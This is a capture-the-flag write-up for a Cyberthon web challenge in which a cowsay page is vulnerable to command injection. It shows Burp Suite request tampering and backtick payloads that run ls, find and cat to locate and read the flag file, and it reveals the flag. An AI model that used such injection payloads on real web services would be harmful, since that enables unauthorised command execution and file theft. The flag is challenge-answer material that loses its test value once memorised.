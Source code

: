 # What does the cow say

Upon loading the webpage, there is a text box where we can enter text and a button below to submit the query. When I pressed the button, this is what the page prints:

    $ echo -e 'Message Here' | cowsay -n

    ______________ 
    < Message Here >
    -------------- 
            \   ^__^
             \  (oo)\_______
                (__)\       )\/\
                    ||----w |
                    ||     ||

At first glance, I thought it might have been SSTI due to the page echoing back my input, but after a second look, I realised I was being stupid and it was actually a command injection challenge involving bash script.

The question was: how would I escape the quotes without causing an error?

First, I tried `'ls #`, but the query sanitised the quote, turning the query into `$ echo -e '\x27ls #' | cowsay -n`.
Thus, I decided to use Burp Suite instead, as hopefully I could edit the query through the proxy server instead to escape the quotes.

True enough, when I check the request on Burp, the request has the header `msg` set to the value `'\x27ls #'`. When i try removing the quotes and reverting the sanitisation on the quote however, leaving the header as `msg: 'ls #`, the response throws a 500 Internal Server Error. I tried multiple payloads including `'$(ls)`, ` '; ls; #`, but they both didn't work.

However, when I tried ``ls``, the request in Burp shows this :

    {
        "cmd":"$ echo -e `ls` | cowsay -n",
        "output":
        " _____ \n< app >\n ----- \n        \\   ^__^\n         \\  (oo)\\_______\n            (__)\\       )\\/\\\n                ||----w |\n                ||     ||\n"
    }

Notice how the cowsay output doesn't echo my input, but rather outputs: `'app'`? That means the command injection worked, and my command, `ls`, made the webpage print out the available directory (`'app'`) in the shell's current direcotry.

In the challenge description, we are told that the file `'flag.txt'` exists, so I changed the input to ``find / -name flag.txt``, which should make the webpage output the directory `'flag.txt'` is located in.

True enough, this is the output:

    {
        "cmd":"$ echo -e `find / -name flag.txt` | cowsay -n",
        "output":" _______________________________ \n< /usr/local/flag/here/flag.txt >\n ------------------------------- \n        \\   ^__^\n         \\  (oo)\\_______\n            (__)\\       )\\/\\\n                ||----w |\n                ||     ||\n"
    }

Thus, we know that the location of `'flag.txt'` is `/usr/local/flag/here/flag.txt`.

Now, when we change the input once again to ``cat /usr/local/flag/here/flag.txt``, we get this output:

    {
        "cmd":"$ echo -e `cat /usr/local/flag/here/flag.txt` | cowsay -n",
        "output":" _________________________ \n< Cyberthon{1_L0V3_W4GYU} >\n ------------------------- \n        \\   ^__^\n         \\  (oo)\\_______\n            (__)\\       )\\/\\\n                ||----w |\n                ||     ||\n"
    }

Flag: Cyberthon{1_L0V3_W4GYU}

